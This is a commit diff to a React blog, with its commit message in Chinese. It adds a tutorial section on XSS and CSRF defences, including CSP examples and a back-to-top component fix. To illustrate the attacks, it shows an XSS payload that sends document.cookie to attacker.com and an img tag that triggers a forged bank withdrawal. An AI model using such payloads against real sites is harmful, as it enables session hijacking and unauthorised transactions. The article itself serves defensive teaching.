

Before and after one commit to ChrisLuckComes/luoyunlai.xyz, a React (Vite) app: page /knowledge/safety in a window 1280 px wide. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
完成安全文章

```diff
--- a/src/component/backTop.tsx
+++ b/src/component/backTop.tsx
@@ -1,9 +1,12 @@
 import { UpSquareFilled } from '@ant-design/icons';
-import { useEffect, useState } from 'react';
+import { useEffect, useLayoutEffect, useState } from 'react';
 import './backTop.css';
+import { useLocation } from 'react-router-dom';
 
 export default function BackTop() {
   const [visible, setVisible] = useState(false);
+
+  const { pathname } = useLocation();
 
   const [scrollDom, setScrollDom] = useState<HTMLDivElement>();
 
@@ -16,7 +19,7 @@ export default function BackTop() {
     if (scrollDom) {
       let distance = scrollDom.scrollTop;
       let backTop = () => {
-        scrollDom.scrollTop = distance -= 36;
+        scrollDom.scrollTop = distance -= 100;
         if (distance > 0) {
           requestAnimationFrame(backTop);
         } else {
@@ -27,17 +30,19 @@ export default function BackTop() {
     }
   };
 
-  useEffect(() => {
-    let root = document.getElementById('rootActicle') as HTMLDivElement;
-    if (root) {
-      setScrollDom(root);
-      root.addEventListener('scroll', showIcon, true);
-    }
+  useLayoutEffect(() => {
+    setTimeout(() => {
+      let root = document.getElementById('rootActicle') as HTMLDivElement;
+      if (root) {
+        setScrollDom(root);
+        root.addEventListener('scroll', showIcon, true);
+      }
+    }, 1000);
 
     return () => {
       scrollDom?.removeEventListener('scroll', showIcon, true);
     };
-  }, []);
+  }, [pathname]);
 
   return (
     <UpSquareFilled
--- a/src/pages/index.tsx
+++ b/src/pages/index.tsx
@@ -5,6 +5,7 @@ import { Layout, Menu, Spin } from 'antd';
 import { LoadingOutlined } from '@ant-design/icons';
 import { Route, Routes, useLocation, useNavigate } from 'react-router-dom';
 import { MenuItem, getItem } from '@/App';
+import BackTop from '@/component/backTop';
 
 const { Sider, Content } = Layout;
 const { Item } = Menu;
@@ -70,6 +71,7 @@ export default function PageContent({ menus, groups }: PageContentProps) {
               element={
                 <Suspense fallback={<Spin indicator={<LoadingOutlined className="text-icon" spin />}></Spin>}>
                   <child.element />
+                  <BackTop />
                 </Suspense>
               }
             ></Route>
--- a/src/pages/knowledge/_safety.tsx
+++ b/src/pages/knowledge/_safety.tsx
@@ -21,3 +21,16 @@ export const XSS_HTML = `\`\`\`js
 let url = new URL(localtion);
 document.write("<input name='creditcard' type='TEXT' value='"+ url.searchParams.get('cc') + "'");
 \`\`\``;
+
+export const CSP_CONFIG = `\`\`\`http
+// 所有内容均来自站点的同一个源
+Content-Security-Policy: default-src 'self'
+// 内容来自信任的域名和子域名
+Content-Security-Policy: default-src 'self' *.trusted.com
+// 允许用户包含来自任何源的图片，限制音频和视频，所有脚本必须从特定服务器获取代码
+Content-Security-Policy: default-src 'self'; img-src *; media-src media1.com media2.com; script-src userscripts.expample.com
+\`\`\``;
+
+export const CSRF_IMG = `\`\`\`html
+<img src="https://bank.example.com/withdraw?account=Alice&amount=1000&for=Badman" />
+\`\`\``;
--- a/src/pages/knowledge/safety.tsx
+++ b/src/pages/knowledge/safety.tsx
@@ -3,22 +3,33 @@ import { Anchor } from 'antd';
 import { UseMarkDown } from '@/hooks/useMarkdown';
 import { LazyImage } from '@/component/image';
 import RISK from '@images/knowledge/risks.png';
-import { SQL_1, CODE_1, XSS_HTML } from './_safety';
-import BackTop from '@/component/backTop';
+import { SQL_1, CODE_1, XSS_HTML, CSP_CONFIG, CSRF_IMG } from './_safety';
 
 const { Link } = Anchor;
 
 export default function Index() {
   const sql_1 = <UseMarkDown markdown={SQL_1}></UseMarkDown>,
     code_1 = <UseMarkDown markdown={CODE_1}></UseMarkDown>,
-    xssHtml = <UseMarkDown markdown={XSS_HTML}></UseMarkDown>;
+    xssHtml = <UseMarkDown markdown={XSS_HTML}></UseMarkDown>,
+    cspConfig = <UseMarkDown markdown={CSP_CONFIG}></UseMarkDown>,
+    csrfImg = <UseMarkDown markdown={CSRF_IMG}></UseMarkDown>;
 
   return (
     <article id="rootActicle" className={classMap.article}>
-      <main id='main' className={classMap.content}>
+      <main id="main" className={classMap.content}>
         <h2 id="pre" className={classMap.articleTitle}>
           常见Web应用安全漏洞及应对手段
         </h2>
+        本文参考如下页面：
+        <a
+          className={classMap.href}
+          target="_blank"
+          rel="noreferrer"
+          href="https://cheatsheetseries.owasp.org/index.html"
+        >
+          OWASP
+        </a>
+        <br />
         攻击者可能有很多不同的路径来突破你的应用来搞破坏，路径图如下：
         <LazyImage src={RISK}></LazyImage>
         <br />
@@ -216,9 +227,58 @@ export default function Index() {
           <li>
             在HTML片段内没有经过校验或转义使用未信任的数据：
             {xssHtml}
+            攻击者把&quot;cc&quot;改为如下参数
+            <code>{`'><script>document.location='http://www.attacker.com/xxx/cookie?foo='+document.cookie'</script>'`}</code>
+            <br />
+            这样就造成了会话的sessionId被发送到攻击者的网站，攻击者成功劫持了用户的session。
           </li>
         </ul>
-        <BackTop />
+        <h3 id="prevent5" className={classMap.articleSubTitle}>
+          防御
+        </h3>
+        防止XSS需要将活跃内容和未信任的数据分开，措施如下：
+        <ul className={classMap.ul}>
+          <li>
+            1. 使用自动转义XSS设计的框架，例如<strong>React/Vue</strong>
+            等，学习框架的XSS保护措施，正确的处理没有覆盖到的场合。
+          </li>
+          <li>
+            2. 转义来自HTML输出的未信任的HTTP数据，例如(body,attribute,JavaScript,CSS,URL)可以解决反射型和存储型XSS。
+          </li>
+          <li>
+            3. 使用<code>Content Secruity Policy(CSP)</code>，它可以防止指定域名之外的恶意脚本执行。
+            {cspConfig}
+          </li>
+        </ul>
+        <h2 id="csrf" className={classMap.articleTitle}>
+          跨站请求伪造
+        </h2>
+        <h3 id="weakness6" className={classMap.articleSubTitle}>
+          漏洞
+        </h3>
+        <code>Cross-site request forgery(CSRF)</code>
+        是一种欺骗用户浏览器访问自己曾认证过的网站并执行一些恶意操作，被访问的网站会认为是真正的用户去执行，利用的是简单身份认证的漏洞。
+        <h3 id="example6" className={classMap.articleSubTitle}>
+          案例
+        </h3>
+        假定如下是某银行转账操作的URL：
+        <code>https://bank.example.com/withdraw?account=AccoutName&amount=1000&for=PayeeName</code>
+        <br />
+        攻击者在另一个网站放如下代码：
+        {csrfImg}
+        如果Alice访问了恶意站点，她访问银行的会话还未失效，那么就损失了1000。这种恶意网址形式多样，也不需要控制防止恶意网址的网站，可以藏在任何包括用户输出的网站中。
+        <h3 id="prevent6" className={classMap.articleSubTitle}>
+          防御手段
+        </h3>
+        攻击者不能获取用户账户控制权，也不能窃取信息，能做到的就是以用户的名义进行某些操作。所以有如下防御措施：
+        <ul className={classMap.ul}>
+          <li>
+            1. 检查<code>Referer</code>字段，这个方法简单，简单校验请求和Referer是否同一域名即可，但是它有局限性，无法保证没有其他漏洞影响它或者被篡改。
+          </li>
+          <li>
+            2. 添加校验Token，由服务器在某个请求中下发，然后在用户请求的时候一并提交校验，CSRF攻击并不能提前获取到这个随机数的值，校验Token错误就拒绝该请求。
+          </li>
+        </ul>
         <Anchor className="anchor" getContainer={() => document.getElementById('content') as HTMLElement}>
           <Link href="#injection" title="注入">
             <Link href="#weakness1" title="漏洞"></Link>
@@ -245,6 +305,11 @@ export default function Index() {
             <Link href="#example5" title="案例"></Link>
             <Link href="#prevent5" title="防御手段"></Link>
           </Link>
+          <Link href="#csrf" title="跨站请求伪造">
+            <Link href="#weakness6" title="漏洞"></Link>
+            <Link href="#example6" title="案例"></Link>
+            <Link href="#prevent6" title="防御手段"></Link>
+          </Link>
         </Anchor>
       </main>
     </article>
```
